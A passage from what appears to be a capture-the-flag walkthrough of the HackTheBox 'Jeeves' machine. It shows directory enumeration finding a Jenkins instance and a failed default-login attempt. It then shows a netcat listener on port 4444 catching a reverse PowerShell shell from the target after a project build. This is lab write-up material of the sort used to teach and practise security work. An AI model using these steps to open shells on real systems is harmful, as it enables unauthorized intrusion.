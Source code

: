 ```
===============================================================
/askjeeves            (Status: 302) [Size: 0] [--> http://jeeves.htb:50000/askjeeves/]
```

Accessing `/askjeeves/` leads us to following page.
![](Jeeves_Web1.png)

On a login page (Top Right), trying default credentials and did not work.

###### `Building a Project and Getting a Shell`
![](Jeeves_Web2.png)

Starting a NetCat Listener on Port 4444
```
# nc -lvnp 4444      
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.63] 49676

PS C:\Users\Administrator\.jenkins\workspace\Test> whoami
jeeves\kohsuke
```
Get your User Flag
